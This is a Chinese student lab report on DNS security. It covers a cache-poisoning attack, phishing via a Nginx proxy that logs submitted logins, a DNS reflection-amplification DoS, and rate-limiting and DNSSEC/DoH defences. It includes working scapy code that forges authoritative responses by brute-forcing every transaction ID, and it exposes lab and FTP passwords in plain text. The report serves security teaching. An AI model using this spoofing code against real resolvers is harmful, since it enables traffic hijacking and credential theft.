

# **信息安全技术实验报告**

 

<table id="tg-g1Nnh">
<thead>
    <th rowspan="2" style="text-align: center; font-weight: bold;">实验名称</th>
    <th colspan="2" rowspan="2" style="text-align: center; font-weight: bold;">域名系统安全</th>
  </tr>
  <tr>
  </tr>
</thead>
<tbody>
  <tr>
    <td rowspan="2" style="text-align: center; font-weight: bold;"> 组长</td>
    <td style="text-align: center; font-weight: bold;"> 姓名</td>
    <td style="text-align: center; font-weight: bold;"> 学号</td>
  </tr>
  <tr>
    <td>　</td>
    <td>　</td>
  </tr>
  <tr>
    <td rowspan="3" style="text-align: center; font-weight: bold;"> 组员</td>
    <td>　</td>
    <td>　</td>
  </tr>
  <tr>
    <td style="text-align: center;">　刘冠麟</td>
    <td style="text-align: center;">20319045</td>
  </tr>
  <tr>
    <td style="text-align: center;">　梁嘉聪</td>
    <td style="text-align: center;">21307216</td>
  </tr>
  <tr>
    <td colspan="3" style="text-align: center; font-weight: bold;"> 实验分工</td>
  </tr>
  <tr>
    <td style="text-align: center; font-weight: bold;" >姓名</td>
    <td colspan="2" style="text-align: center; font-weight: bold;" >任务</td>
  </tr>
  <tr>
    <td style="text-align: center;" >　刘冠麟</td>
    <td colspan="2" style="text-align: center;" >参与完成实验一与实验报告编写</td>
  </tr>
  <tr>
    <td style="text-align: center;" >　刘冠麟</td>
    <td colspan="2" style="text-align: center;" >参与完成实验一与实验报告编写</td>
  </tr>
  <tr>
    <td style="text-align: center;" >　梁嘉聪</td>
    <td colspan="2" style="text-align: center;" >完成了实验1及实验报告</td>
  </tr>
</tbody>
</table>

表1-1 实验中的节点名称、用户名及密码

| **节点名称** | **用户名** | **密码** |
| ------------ | ---------- | -------- |
| 正常用户     | imool      | imool    |
| 攻击者       | kali       | kali     |
| 外网服务器   | root       | root     |

【**交报告**】使用FTP方式提交，推荐使用Filezilla客户端

地址为ftp://ftp.network-security.asia；账号与密码为：student/5ecur1ty

文件以组号（组长学号）+实验名称命名


# 1. 实验目的

1. 掌握DNS解析过程的工作原理及其关键环节
2. 掌握DNS解析过程的工作原理及其关键环节
3. 学会识别和分析DNS工作过程中可能遇到的攻击点
4. 掌握DNS缓存污染攻击原理、执行条件、攻击过程及危害
5. 思考并掌握DNS缓存污染攻击的防御策略及技术

## 实验1：DNS缓存污染攻击

1. **在攻击者主机上，查询imool.net权威域名服务器地址，确定攻击脚本需用到的权威域名服务器源IP。**
2. **在本地域名服务器机器上，修改本地域名服务器配置，将BIND9随机化端口设置为固定端口，并重新启动BIND9。**
3. **在攻击者主机上，使用scapy编写代码，实现对DNS响应报文的伪造。**
4. **猜测DNS响应报文中的TXID字段。**
5. **发起攻击。在攻击脚本中，提高发包速度。**
6. **检查攻击是否成功。**
7.  **配置钓鱼网站。**
8.  **验证DNS缓存污染攻击后的钓鱼效果。**
9. **将重要过程和结果截图，完成实验报告。**
10.  **思考：**
    1. **如何验证攻击者构造的DNS响应报文是正确的？**
    2. **怎样提高DNS缓存污染攻击的成功率？**
    3. **怎样防范DNS缓存污染攻击？**

## 实验2：DNS拒绝服务攻击

1. **编写攻击脚本。**

2.  **观察攻击效果**

   - **通过提高发包速率同时向多个递归服务器发起请求**

   - **在攻击者主机上查看发送的请求数据包大小**

   - **在受害者主机上查看其收到的DNS响应数据包大小**

   - **在受害者主机上，使用iftop命令查看攻击流量的大小**

   - **计算攻击流量放大的倍数，讨论实现DNS拒绝服务攻击的相关实验参数设置**

   - **重要实验过程和结果请截图，完成实验报告**

3. **防御DNS拒绝服务攻击**

4. **部署和配置限制流量防御机制**

5.  **验证限制流量防御机制有效性**

6. **在受害者主机上检查限制流量防御效果**

7. **重要实验过程和结果请截图，完成实验报告**

8.  **思考：除了限制流量策略，还有什么其他策略防范DNS拒绝服务攻击？**

 

 

# 2. 实验步骤与实验结果记录


## 实验1：DNS缓存污染攻击

### 1.查询权威服务器IP地址

   在攻击者主机上执行dig NS dnslab.imool.net命令，查询待攻击域名dnslab.imool.net对应权威服务器(NS)信息，返回两条NS记录，分别是ns1.imool.net和ns2.imool.net：


​    接着通过dig ns1.imool.net进一步获取权威服务器的IP地址(A记录)，结果为39.107.126.48：


​    通过以上步骤确定攻击者需要伪造的DNS响应报文的源IP地址是39.107.126.48。

### 2.配置本地域名服务器

​    为简化实现，将本地域名服务器的源端口固定为20002，攻击者只需要猜测TXID：


之后重启BIND9使配置生效。

### 3.构造响应数据包

​    DNS记录的主要参数如下：

```python
victim_subdomain = "dnslab.imool.net"
fake_ip = "192.168.3.40"
authoritative_ip = "39.107.126.48"
localdns_ip = "192.168.3.53"
authoritative_port = 53
localdns_port = 20002
fake_rr = DNSRR(rrname=victim_subdomain, type="A", ttl=600, rdata=fake_ip)
```

其中DNS记录的TTL值600，使该虚假记录能在正常用户的缓存中停留1小时。

### 4.猜测TXID

​    TXID占16比特，范围是0到65535，需要构造65536个数据包。每个数据包IP层的源地址是39.107.126.48(权威域名服务器)，目的地址是192.168.3.53(待攻击的本地域名服务器)；UDP层源端口是53(因为本地域名服务器执行递归查询时会发送到53号端口)，目的端口是20002(第2步固定的端口)；DNS报文的QR位和AA位都为1，分别表示响应报文和权威应答，DNS记录包含的IP地址为攻击者192.168.3.40：

```python
def build_dns_response_packets():
    packets = []
    fake_rr = DNSRR(rrname=victim_subdomain, type="A", 
ttl=600, rdata=fake_ip)
    for txid in range(65536):
        dns_layer = DNS(id=txid, qr=1, aa=1,     
qd=DNSQR(qname=victim_subdomain), 
ancount=1, an=fake_rr)
        ip_layer = IP(src=authoritative_ip, dst=localdns_ip)
        udp_layer = UDP(sport=authoritative_port, 
dport=localdns_port)
        packet = ip_layer / udp_layer / dns_layer
        packets.append(packet)
    return packets

```

### 5.发起攻击

​    攻击者持续向本地域名服务器发送伪造数据包。

### 6.检查攻击是否成功

​    正常用户使用dig -n 10 dig dnslab.imool.net每十秒进行一次DNS查询并刷新缓存，经过一段时间后发现该域名的IP地址已经变为192.168.3.40，剩余TTL为331：


### 7.配置钓鱼网站

​    在Nginx的配置文件/etc/nginx/nginx.conf中编写日志格式，记录要捕获的数据：

 

添加代理配置，将流量转发到https://imool.com.cn：

 

将日志输出到指定文件：


最后重启Nginx使配置生效。

### 8.验证钓鱼效果

​    正常用户用浏览器访问dnslab.imool.net，填写账号(team40)和密码(123456)后点击登录。随后在攻击者主机上打印Nginx日志文件，可以发现用户填写的隐私信息：

 

### 9.思考

**（1）如何验证攻击者构造的DNS响应报文是正确的？**

​    可以在攻击者主机上模拟本地域名服务器向权威域名服务器查询的过程，回复响应报文，看系统是否会接受伪造的报文。具体方法是攻击者使用dig @39.107.126.48 dnslab.imool.net命令向权威域名服务器发起DNS查询，与此同时监听网络数据包，给自己回复对应的DNS响应报文：

```python
def sniff_callback(pkt: Packet):
    if pkt.haslayer(DNS) and pkt[DNS].qr == 0:
        if str(pkt[DNS].qd.qname).__contains__(victim_subdomain):
            fake_rr = DNSRR(rrname=victim_subdomain,
                            type="A", ttl=600, rdata=fake_ip)
            dns_layer = DNS(id=pkt[DNS].id, qr=1, aa=1,
                            qd=DNSQR(qname=victim_subdomain),
                            ancount=1, an=fake_rr)
            ip_layer = IP(src=authoritative_ip, dst=pkt[IP].src)
            udp_layer = UDP(sport=pkt[UDP].dport, dport=pkt[UDP].sport)
            packet = ip_layer / udp_layer / dns_layer
            send(packet, iface="eth0")

sniff(filter="udp", prn=sniff_callback)
```

 观察到域名对应的IP地址是192.168.3.40，说明系统接受了伪造数据包，响应报文是正确的。

**（2）怎样提高DNS缓存污染攻击的成功率？**

​    提高成功率的办法可能有提高发送数据包的速度、在更接近本地域名服务器的地方发送数据包，使DNS响应报文能更快到达本地域名服务器。或者分析域名服务器软件潜在的漏洞，如源端口号和TXID是否随机性不足或具有一定规律，针对特定软件进行攻击。

**（2）怎样防范DNS缓存污染攻击？**

​    防范措施有使用安全的域名协议，如DoT(DNS over TLS)、DoH(DNS over HTTPS)等，这些协议使用安全运输层协议，能有效避免攻击者查看或篡改DNS查询的内容。还可以使用数字签名技术，客户端通过检查签名和内容是否一致来决定是否接受响应内容，从而避免攻击者伪造域名-IP对应关系。 

## 实验2：DNS拒绝服务攻击

### 1.编写攻击脚本

在攻击者主机上，编写脚本，假冒受害者（本实验中是正常用户）向每个递归服务器同时发送大量DNS查询请求。需重点关注的参数和主要代码：

 

构造DNS层的代码如下：


### 2.观察攻击效果

##### （1）   通过提高发包速率同时向多个递归服务器发起请求。


如上所示，在此使用多进程同时向多个递归服务器源源不断发起伪造的查询请求报文，这些查询报文的源IP地址均设置为受害者（即正常用户）主机的IP地址，从而达到攻击效果。

##### （2）   在攻击者主机上查看发送的请求数据包大小：

如下所示，大小为41 bytes：

 

##### （3）   在受害者主机上查看其收到的DNS响应数据包大小：

如下所示，大小为3472 bytes：


##### （4）   在受害者主机上，使用iftop命令查看攻击流量的大小：

如下所示：

 

##### （5）   计算攻击流量放大的倍数，讨论实现DNS拒绝服务攻击的相关实验参数设置。

**答：**

**由放大倍数=DNS响应报文的大小/DNS请求报文的大小可知，放大的倍数为3472 / 41 = 84.68。**

假设受害者的带宽为B bps（比特每秒），每个DNS响应报文的大小为R字节，单个DNS响应报文的大小R字节 = R * 8比特，每秒产生的响应流量 = N * R * 8 bps，为了耗尽受害者的带宽，必须满足N * R * 8 bps ≥ B bps，从而N ≥ B / (R * 8)。在本实验中，单个DNS响应报文的大小R * 8 = 3472 * 8 = 27776 比特，则N ≥ B / 27776，假设B = 100 Mbps（100 * 10^6 bps），则N ≥ 3600。

 

### 3.防御DNS拒绝服务攻击

##### （1）   部署和配置限制流量防御机制

在每个递归服务器上，编辑/etc/bind/named.conf.options，以部署限制流量策略，防御DNS反射放大攻击，如下所示：


执行systemctl restart bind9，使配置生效

##### （2）   验证限制流量防御机制有效性

在配置192.168.2.10服务器部署限制流量策略前


在配置192.168.2.10服务器部署限制流量策略后



可以看到，流量大小出现了**明显减少**，说明相关部署限制流量策略有效

##### （3）   在受害者主机上检查限制流量防御效果

在受害者主机上，使用iftop命令查看攻击流量大小。

在部署限制流量策略前


在对所有服务器进行部署限制流量策略后


可以看到，每个服务器对应的流量大小出现了明显减少，说明防御DNS拒绝服务攻击措施有效。

##### （4）   思考：除了限制流量策略，还有什么其他策略防范DNS拒绝服务攻击？

答：**限制递归DNS服务器的公开访问：**确保只有受信任的客户端可以访问递归DNS服务器，限制对递归DNS服务器的公开访问可以减少攻击面。

​    **网络流量监控和分析：**实时监控和分析网络流量，及时发现异常的大量响应流量，采取相应的防御措施，如限制来自特定IP地址的流量。

**升级DNS软件和设备：**及时升级DNS软件和设备的安全补丁，修复已知漏洞，提高系统的安全性和抗攻击能力。

**DDoS****防护服务：**考虑使用专业的DDoS防护服务，这些服务能够实时监测和过滤DDoS攻击流量，保护网络基础设施免受攻击影响。

